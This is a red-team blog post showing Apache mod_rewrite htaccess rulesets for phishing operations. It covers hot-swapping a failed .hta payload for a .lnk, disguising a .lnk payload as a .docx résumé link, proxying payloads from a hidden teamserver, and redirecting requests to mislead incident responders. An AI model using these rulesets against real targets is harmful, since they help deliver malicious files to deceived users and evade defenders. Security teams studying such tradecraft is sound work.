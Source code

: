 ```yaml
---
layout: post
title: Apache mod_rewrite Grab Bag
summary: Using Apache mod_rewrite to hot-swap payloads, obfuscate payload file extensions, block non-standard HTTP methods, and use an alternate method to redirect requests for invalid URIs.
tags: 
- mod_rewrite
- phishing
featuredimage: /assets/apache/payload-file-extension-obfuscation.gif
---
```


Apache mod_rewrite provides conditional redirection and obfuscation to a red teamer's infrastructure. I've previously written about mod_rewrite in [a few posts]({{site.baseurl}}/topics/mod_rewrite). In this post, I will cover a few quick tricks you can use in conjunction with techniques from my earlier posts while phishing or red teaming.

Be sure you read the [first-time setup instructions]({{site.baseurl}}/2016-03-22-strengthen-your-phishing-with-apache-mod_rewrite-and-mobile-user-redirection#first-time-apache-setup) for mod_rewrite to configure your server to work properly. 

# Payload Hot-Swapping
We've all been in a situation where, just after sending out a large phishing batch, we realize that some aspect of the payload doesn't work in the target environment. Previously, the batch would be burned. With mod_rewrite, we can create a ruleset to redirect requests for the original payload and redirect it to a new payload.

Let's say our original payload, `BonusesAndSalaries2017.hta`, didn't work and we want to replace it with `BonusesAndSalaries2017.lnk`. We could use the following htaccess ruleset:

<div style="background-color:rgb(39,40,34);color:rgb(248,248,242);font-size:.85em;overflow-x:scroll;white-space: nowrap;padding:6px;">
RewriteEngine On<br>
RewriteCond <span style="color: dodgerblue">%{REQUEST_URI}</span> <span style="color: mediumseagreen">^/BonusesAndSalaries2017.hta$</span><br>
RewriteRule <span style="color: gold">^.*$</span> <span style="color: orange">/BonusesAndSalaries2017.lnk </span><span style="color: tomato"> [L,R=302]</span><br>
RewriteRule <span style="color: gold">^.*$</span> <span style="color: orange">http://REDIRECTION-URL.com/</span><span style="color: mediumvioletred">?</span> <span style="color: tomato">[L,R=302]</span></div>

Line by line explanation:

<div style="background-color:rgb(39,40,34);color:rgb(248,248,242);font-size:.85em;overflow-x:scroll;white-space: nowrap;padding:6px;">
Enable the rewrite engine<br>
<span style="color: dodgerblue">If the request's URI </span> <span style="color: mediumseagreen">matches our original payload, BonusesAndSalaries2017.hta, </span><br>
<span style="color: gold">Change the request </span> <span style="color: orange">to serve /BonusesAndSalaries2017.lnk. </span><span style="color: tomato">Do not evaluate further rules and redirect the user, changing their address bar.</span><br>
If the above conditions are not met, <span style="color: gold">change the entire request</span> <span style="color: orange"> to http://REDIRECTION-URL.com/ </span><span style="color: mediumvioletred">and drop any query strings from the original request. </span> <span style="color: tomato">Do not evaluate further rules and redirect the user, changing their address bar.</span></div>

Delete the original payload and put the above ruleset in an htaccess file in the web root of the server hosting the original payload. While this technique works as a reaction a phishing issue, it also works proactively. By using a generic link (such as `/BonusesAndSalaries2017`) in the email, you can quickly modify the third line of the htaccess file to serve up your next payload.

# Payload File Extension Obfuscation
Similar to payload hot-swapping, we can use mod_rewrite to help our phishing email look more believable to targets and email security appliances by hiding our payload's true file extension. Imagine we are going to use an lnk payload, but want end-users to think they're clicking on a link to a Word document. If our email used the `<a>` tags to obfuscate the link, a mouse-over or copy and paste thwarts the plan. Not to mention the fact that display text that doesn't match the hyperlink destination raises your score in many spam filters.

<div style="background-color:rgb(39,40,34);color:rgb(248,248,242);font-size:.85em;overflow-x:scroll;white-space: nowrap;padding:6px;">
RewriteEngine On<br>
RewriteCond <span style="color: dodgerblue">%{REQUEST_URI}</span> <span style="color: mediumseagreen">^/JackBrownResume.docx?$</span><br>
RewriteRule <span style="color: gold">^.*$</span> <span style="color: orange">/JackBrownResume.lnk</span><span style="color: tomato"> [L,R=302]</span><br>
RewriteCond <span style="color: dodgerblue">%{REQUEST_URI}</span> <span style="color: mediumseagreen">^/JackBrownResume.lnk?$</span><br>
RewriteRule <span style="color: gold">^.*$</span> <span style="color: orange">http://TEAMSERVER-IP/<span style="color: dodgerblue">JackBrownResume.lnk</span></span> <span style="color: tomato">[P]</span><br>
RewriteRule <span style="color: gold">^.*$</span> <span style="color: orange">http://REDIRECTION-URL.com/</span><span style="color: mediumvioletred">?</span> <span style="color: tomato">[L,R=302]</span></div>

Line by line explanation:

<div style="background-color:rgb(39,40,34);color:rgb(248,248,242);font-size:.85em;overflow-x:scroll;white-space: nowrap;padding:6px;">
Enable the rewrite engine<br>
<span style="color: dodgerblue">If the request's URI </span> <span style="color: mediumseagreen">is /JackBrownResume.docx (the link we put in the phishing email body), </span><br>
<span style="color: gold">Change the entire request </span> <span style="color: orange">to /JackBrownResume.lnk (the actual payload). </span><span style="color: tomato">Do not evaluate further rules and redirect the user, changing their address bar.</span><br>
<span style="color: dodgerblue">If the request's URI </span> <span style="color: mediumseagreen">is /JackBrownResume.lnk (the payload we want to serve), </span><br>
<span style="color: gold">Change the entire request </span> <span style="color: orange">to serve </span><span style="color: dodgerblue">/JackBrownResume.lnk</span><span style="color: orange"> from the teamserver's IP, </span> <span style="color: tomato">and keep the user's address bar the same (obscure the teamserver's IP).</span><br>
If the above conditions are not met, <span style="color: gold">change the entire request</span> <span style="color: orange"> to http://REDIRECTION-URL.com/ </span><span style="color: mediumvioletred">and drop any query strings from the original request. </span> <span style="color: tomato">Do not evaluate further rules and redirect the user, changing their address bar.</span>
</div>

The mod_rewrite ruleset will redirect our docx link to the lnk and trigger a download in the end-user's browser. 

Here is a demo of this ruleset in action:

![Payload File Extension Obfuscation Demo](/assets/apache/payload-file-extension-obfuscation.gif)

# 404 Redirection

In my post [Invalid URI Redirection with Apache mod_rewrite]({{site.baseurl}}/2016-03-29-invalid-uri-redirection-with-apache-mod_rewrite/), I covered a method of redirecting invalid URI requests to a chosen page. That method involves manually specifying allowed URIs, regardless of files present in the web directory on your server. 

We can accomplish a similar function by redirecting all requests for nonexistent resources (404s) to a different page:

<div style="background-color:rgb(39,40,34);color:rgb(248,248,242);font-size:.85em;overflow-x:scroll;white-space: nowrap;padding:6px;">
ErrorDocument 404 <span style="color: dodgerblue">http://REDIRECTION-URL.com/</span><br></div>
 
If you are only using your Apache server for redirection this is a quick method of filtering requests for invalid URIs. But, keep in mind that Apache will serve any valid files requested

# Block Non-Standard HTTP Methods
Just as pentesters will use non-standard HTTP methods to gather intelligence from a target server, incident responders can use these HTTP methods against our infrastructure. To reduce that risk, we can allow GET and POST requests and redirect all others with the following ruleset:

<div style="background-color:rgb(39,40,34);color:rgb(248,248,242);font-size:.85em;overflow-x:scroll;white-space: nowrap;padding:6px;">
RewriteEngine On<br>
RewriteCond <span style="color: dodgerblue">%{REQUEST_METHOD}</span> <span style="color: mediumseagreen">!^(GET|POST)</span><br>
RewriteRule <span style="color: gold">^.*$</span> <span style="color: orange">http://REDIRECTION-URL.com</span><span style="color: tomato"> [L,R=302]</span><br></div>

Line by line explanation:

<div style="background-color:rgb(39,40,34);color:rgb(248,248,242);font-size:.85em;overflow-x:scroll;white-space: nowrap;padding:6px;">
Enable the rewrite engine<br>
<span style="color: dodgerblue">If the request's HTTP Method </span> <span style="color: mediumseagreen">is not GET or POST, </span><br>
<span style="color: gold">Change the entire request </span> <span style="color: orange">to http://REDIRECTION-URL.com. </span><span style="color: tomato">Do not evaluate further rules and redirect the user, changing their address bar.</span><br></div>

# Summary

Apache mod_rewrite provides a multitude of functionality that is useful for offensive security assessments. With the mod_rewrite techniques covered in this post, we can conditionally redirect web requests to obfuscate our backend infrastructure and point incident responders in the wrong direction. The techniques covered in this post can be combined with other [previously covered]({{site.baseurl}}/topics/mod_rewrite) techniques to even greater effect.

# Resources

* [mod-rewrite-cheatsheet.com](http://mod-rewrite-cheatsheet.com)
* [Official Apache 2.4 mod_rewrite Documentation](http://httpd.apache.org/docs/current/rewrite/)
	* [Apache mod_rewrite Introduction](https://httpd.apache.org/docs/2.4/en/rewrite/intro.html)
* [An In-Depth Guide to mod_rewrite for Apache](http://code.tutsplus.com/tutorials/an-in-depth-guide-to-mod_rewrite-for-apache--net-6708)